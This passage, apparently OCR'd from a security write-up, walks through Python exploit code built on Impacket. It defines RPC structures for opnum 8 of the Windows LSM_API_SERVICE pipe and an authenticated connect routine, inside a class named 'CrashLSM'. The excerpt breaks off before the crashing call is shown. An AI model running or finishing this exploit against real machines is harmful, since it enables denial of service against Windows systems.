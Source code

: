 ```py
################################################################################
# RPC CALLS
################################################################################
class RPCSESSIONINPUT(NDRSTRUCT):
    structure = (
        ('p0', DWORD),
        ('p1', DWORD),
    )
class RPCSESSIONRESPONSE(NDRSTRUCT):
    structure = (
        ('p2', ULONG),
        ('p3', ULONG),
    )
class RpcGetSessionIds(NDRCALL):
    opnum = 8
    structure = (
        ('input',RPCSESSIONINPUT),
    )
class RpcGetSessionIdsResponse(NDRCALL):
    structure = (
        ('response', RPCSESSIONRESPONSE),
    )
```

Next, we reference the opnum and their corresponding structures:
```py
################################################################################
# OPNUMs and their corresponding structures
################################################################################
OPNUMS = {
    8   : (RpcGetSessionIds, RpcGetSessionIdsResponse),
}
```

The final class of the exploit includes two functions. The `connect` function defines the RPC interface, the RPC endpoint and uses Impacket authentication to connect to the RPC interface over the named pipe. We support both NTLM and Kerberos authentication.

The `RpcGetSessionIds` function uses the specified class that describes the data structure of the RPC call and actually invokes it with the specified parameters.

```py
class CrashLSM():
    def connect(self, username, password, domain, lmhash, nthash, target, doKerberos, dcHost, targetIp):
        binding_params = {
            'LSM_API_SERVICE': {
                'stringBinding': r'ncacn_np:%s[\pipe\LSM_API_SERVICE]' % target,
                'MSRPC_UUID_LSM': ('88143fd0-c28d-4b2b-8fef-8d882f6a9390', '1.0')
            },
        }
        rpctransport = transport.DCERPCTransportFactory(binding_params["LSM_API_SERVICE"]['stringBinding'])
        if hasattr(rpctransport, 'set_credentials'):
            rpctransport.set_credentials(username=username, password=password, domain=domain, lmhash=lmhash, nthash=nthash)

        if doKerberos:
            rpctransport.set_kerberos(doKerberos, kdcHost=dcHost)
        if targetIp:
            rpctransport.setRemoteHost(targetIp)

        dce = rpctransport.get_dce_rpc()
        dce.set_auth_type(RPC_C_AUTHN_WINNT)
        dce.set_auth_level(RPC_C_AUTHN_LEVEL_PKT_PRIVACY)
```